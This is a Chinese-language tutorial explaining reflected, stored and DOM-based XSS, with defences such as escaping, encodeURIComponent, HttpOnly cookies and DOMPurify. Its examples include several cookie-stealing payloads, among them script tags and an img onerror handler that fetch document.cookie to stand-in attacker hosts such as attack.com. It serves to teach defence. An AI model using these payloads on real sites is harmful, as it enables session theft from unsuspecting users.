 [toc]

# XSS 攻击

## 1. 前言

XSS (Corss Site Scripting)也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对用于的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

反射型，存储型，DOM型

## 2. 反射型(url)

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

举个例子：

```js
// 当用户在搜索时，比如
http://www.xxx.com/music?name='青花瓷'
```

后端假设返回搜索的name，而这时候攻击者在 url 后面拼接一个恶意的script，如 alert(1);

```js
http://www.xxx.com/music?name='青花瓷'<script>alert(1)</script>
```

又假如拼接的是一个 documen.cookie呢？然后将这个cookie发到它自己的电脑上，cookie就被盗取了

```js
http://www.xxx.com/music?name='青花瓷'<script>fetch(`http://恶意者的网站.com/>cookie=${document.cooki}`)</script>
```

造成反射型 XSS 攻击的原因是服务端没有过滤scritp， 所以解决方案很简单，在服务器对用户的输入进行过滤，过滤方案很多。

一种方式是对用户输入进行 encode，比如：

```js
${encodeURIComponent(req.query.name)
```

第二种方式就是替换掉特殊字符，比如 `<` `&` 等，只要替换掉，自然就不会解析了

```js
function replaceSpecialSymbol(str) {
	return str
					.replace(/&/g, '&amp;')
          .replace(/"/g, '&quot;')
          .replace(/'/g, '&apos;')
          .replace(/</g, '&lt;')
          .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 cookie的话，最好将其设置为 HttpOnly,这样攻击者就无法利用 JS 脚本在前端获取到 Cookie了

## 3. 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端未经过转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致。

## 4. DOM型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

## 5. 防御方案

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

